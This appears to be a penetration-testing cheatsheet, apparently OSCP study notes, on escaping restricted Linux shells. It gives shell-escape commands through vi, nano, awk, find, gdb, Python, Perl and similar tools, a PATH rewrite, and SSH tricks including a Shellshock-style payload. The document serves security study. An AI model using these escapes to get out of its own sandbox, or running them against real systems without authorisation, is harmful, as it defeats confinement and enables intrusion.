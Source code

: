 ```yaml
---
title: Escaping Jailed Shells
date: 2020-06-26 13:17:48
tags: [oscp, cheatsheet, linux]
---
```


# Breaking Out Of The Jail

*You can execute built-in shell commands, as well as the ones in your PATH*

## Enumerate
* Get environment variables: `env` or `printenv` 
* Any programs as different user: `sudo -l`
* Check current PATH: `echo $PATH`
* List contents of PATH:
    * `ls path/to/PATH`
    * `echo path/to/PATH/*`
* List export variables: `export -p`

## Research
**Research each executable command, look for odd parameters**
Check out:
* man pages
* [GTFOBin](https://gtfobins.github.io/)
* Vulnerabilities in the command

## Attack Vectors
* If "/" is allowed, `/bin/bash`

### Writable PATH
* If PATH is writable, game on!
    * `export PATH=/usr/local/bin:/usr/bin:/bin:$PATH`

### Editors
* vi, vim, man, less, more
``` bash
:set shell=/bin/bash
:shell
# or
:!/bin/bash
```
* nano
``` bash
# Control - R, Control - X
^R^X
reset; sh 1>&0 2>&0
```
* ed
`!'/bin/sh'`

### Common Tools
``` bash
# cp
cp /bin/sh /current/PATH

# ftp
ftp
ftp>!/bin/sh

# gdb
gdb
(gdb)!/bin/sh

# awk
awk 'BEGIN {system("/bin/bash")}'

# find
find / -name bleh -exec /bin/bash \;

# expect
expect
spawn sh
```

### SSH
``` bash
# exec commands before remote shell are loaded
ssh test@victim -t "/bin/sh"

# start ssh without loading any profile
ssh test@victim -t "bash --noprofile"

# try shellshock
ssh test@victim -t "() { :; }; /bin/bash"
```

### Scripting Languages
``` bash
# python
python -c 'import os;os.system("/bin/bash")'

# perl
perl -e 'exec "/bin/sh";'

# ruby
ruby -e 'exec /bin/sh'
```

### Writing To a File
``` bash
echo "hello world!" | tee hello.sh
echo "append to the same file" | tee -a hello.sh
```

## Resources
[SANS](https://www.sans.org/blog/escaping-restricted-linux-shells/)
[Hacking Articles](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)
[Escape From SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)